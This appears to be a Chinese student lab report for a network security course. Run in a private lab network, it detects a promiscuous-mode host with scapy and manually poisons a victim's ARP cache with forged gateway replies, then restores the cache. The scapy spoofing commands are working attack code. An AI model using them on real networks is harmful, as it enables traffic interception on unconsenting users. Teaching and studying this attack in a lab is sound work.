






# 第四章实验

## 实验环境

### 网络拓扑



## 实验过程

### 实验一：检测局域网中的异常终端

#### 关闭混杂模式

在攻击者主机上使用scapy，输入代码`pkt = promiscping("172.16.111.144")`，发送数据包



发现scapy没有收到回复

#### 开启混杂模式

使用以下指令开启网卡的混杂模式
```
sudo ip link set eth0 promisc on
```

重复之前的步骤再发送一次数据包


可以观察到，攻击者主机的scapy收到了回复

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的scapy进行如下操作
```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```



伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst= "08:00:27:f3:8c:ed")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



在受害者主机上查看 ARP 缓存，发现没有被毒化


对构造的APR包加上Ethernet帧头，再次发送
```
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst= "08:00:27:f3:8c:ed")

sendp(arpspoofed)
```

再次查看受害者主机上的 ARP 缓存,网关的 MAC 地址已被替换为攻击者主机的 MAC 地址



恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:12:28:df", pdst="172.16.111.144", hwdst="08:00:27:f3:8c:ed")
sendp(restorepkt1, count=100, inter=0.2)
```

发送后查看受害者主机上的 ARP 缓存，arp缓存恢复正常

